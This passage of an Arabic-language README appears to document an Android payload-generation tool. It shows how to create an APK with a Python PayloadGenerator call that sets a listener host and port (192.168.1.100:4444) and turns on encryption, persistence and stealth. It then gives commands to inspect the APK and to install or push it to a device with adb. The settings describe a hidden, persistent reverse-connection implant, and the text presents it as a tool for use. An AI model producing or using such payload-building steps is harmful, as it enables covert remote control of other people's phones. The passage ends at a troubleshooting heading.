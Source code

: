 ### 3. إنشاء APK

#### الطريقة الأولى: استخدام الأداة
```bash
python main.py --gui
# اختر "إنشاء البايلود" واتبع التعليمات
```

#### الطريقة الثانية: استخدام الكود مباشرة
```python
from core.payload_generator import PayloadGenerator

generator = PayloadGenerator()
result = generator.create_payload(
    name="my_payload",
    lhost="192.168.1.100",
    lport=4444,
    encryption=True,
    persistence=True,
    stealth=True
)

print(f"APK created: {result['apk_path']}")
```

### 4. التحقق من APK

#### فحص APK
```bash
# فحص محتوى APK
unzip -l my_payload.apk

# فحص AndroidManifest.xml
aapt dump xmltree my_payload.apk AndroidManifest.xml

# فحص التوقيع
jarsigner -verify -verbose -certs my_payload.apk
```

#### تثبيت APK
```bash
# تثبيت على جهاز متصل
adb install my_payload.apk

# أو نسخ إلى الجهاز
adb push my_payload.apk /sdcard/
```

## 🔧 استكشاف الأخطاء

### مشاكل شائعة
